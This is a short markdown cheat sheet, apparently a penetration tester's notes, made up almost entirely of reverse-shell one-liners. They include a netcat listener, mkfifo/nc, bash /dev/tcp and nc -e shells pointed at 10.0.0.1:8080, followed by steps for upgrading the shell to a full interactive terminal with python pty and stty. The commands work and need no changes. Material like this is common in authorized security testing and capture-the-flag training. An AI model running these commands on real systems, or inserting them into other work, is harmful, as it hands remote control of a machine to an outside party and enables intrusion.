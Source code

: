 ## Reverse shells with Netcat

### Listen for incoming connection on port 8080
`nc -nvlp 8080`

### Spawn reverse shell to 10.0.0.1 on port 8080
`rm /tmp/cc;mkfifo /tmp/cc;cat /tmp/cc|/bin/sh -i 2>&1|nc 10.0.0.1 8080 >/tmp/cc`<br>
`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`<br>
`nc -e /bin/sh 10.0.0.1 8080`<br>

### Upgrade interactive shell with python
1. Import pseudo terminal<br>
`python -c 'import pty;pty.spawn("/bin/bash")'`
2. Background the session [ctrl-z]<br>
`stty size`<br>
`stty raw -echo`
4. Foreground the session<br>
`fg`
5. Set environment variables<br>
`export TERM=xterm`<br>
`export PATH=$PATH:/usr/sbin:/usr/local/sbin:/usr/local/bin:/usr/bin:/sbin:/bin:/usr/games`<br>
`stty rows [x] cols [y]`<br>
`alias ll='ls -lAF --color=auto'`<br>
`alias llt='ls -lAFtr --color=auto --full-time'`<br>
`alias pyserv='python -m SimpleHTTPServer'`<br>
